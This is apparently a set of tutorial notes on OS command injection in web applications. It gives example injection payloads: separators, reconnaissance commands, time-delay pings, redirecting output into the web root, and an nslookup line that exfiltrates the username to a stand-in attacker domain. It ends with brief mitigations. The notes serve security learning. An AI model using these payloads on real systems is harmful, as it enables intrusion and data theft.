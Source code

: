 # OS Command Injection

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data. Very often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.

## Execute Arbitrary commands :

`https://insecure-website.com/stockStatus?productID=381&storeID=29`

consider given link there may be legacy system running script behind may be it run script with parameters ...

ie : python3 stockCheck.py 381 29

then this script gives output based on params. now assume we give additional input `& echo "abc"` , application may also print **abc** as application output. so input should look like...

`https://insecure-website.com/stockStatus?productID=381%20&%20echo%20"abc"%20&storeID=29` that will execute python3 [stockCheck.py](http://stockCheck.py) 381 & echo "abc" & 29

Output from legacy system would look like...

```bash
Error - productID was not provided

            abc

            29: command not found
```

## Commands you can use :

| Purpose of command | Linux | Windows |
| --- | --- | --- |
| Name of current user | whoami | whoami |
| Operating system | uname -a | ver |
| Network configuration | ifconfig | ipconfig /all |
| Network connections | netstat -an | netstat -an |
| Running processes | ps -ef | tasklist |

## Blind Command Injection :

Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.

in feedback like functionality, site may ask for email address to supply it to admin

`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`

so use something different payload like email address like `peter@normal-user.net & echo "abc" &` 

or we can add command in comment section too.

## Blind OS command Injection using time delays :

sometime normal output is not shown to user, so try to trigger time delays using commands like `ping -c 10` or `sleep, etc`

`& ping -c 10 127.0.0.1 &`

This command will cause the application to ping its loopback network adapter for 10 seconds.

## blind OS command injection by redirecting output :

You can redirect the output from the injected command into a
 file within the web root that you can then retrieve using your browser.
 For example, if the application serves static resources from the 
filesystem location `**/var/www/static**`, then you can submit the following input:

`& whoami > /var/www/static/whoami.txt &`

we can retrieve output at `https://vulnerable-website.com/whoami.txt` 

### Or we can use OAST techniques to interact with collaborator or exfiltrate data

`& nslookup kgji2ohoyw.web-attacker.com &` - **interact**

`& nslookup `whoami`.kgji2ohoyw.web-attacker.com &` - **exfiltrate username**

## Ways to inject OS Commands :

in all OS :

- `&`
- `&&`
- `|`
- `||`

in unix :

- `;`
- Newline (`0x0a` or `\n`)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

- ``` injected command ```
- `$(` injected command `)`

# Mitigations :

Don't use OS commands directly from application but apply safer API

strong input validation is must needed

use white listing

only allow alphanumerical characters
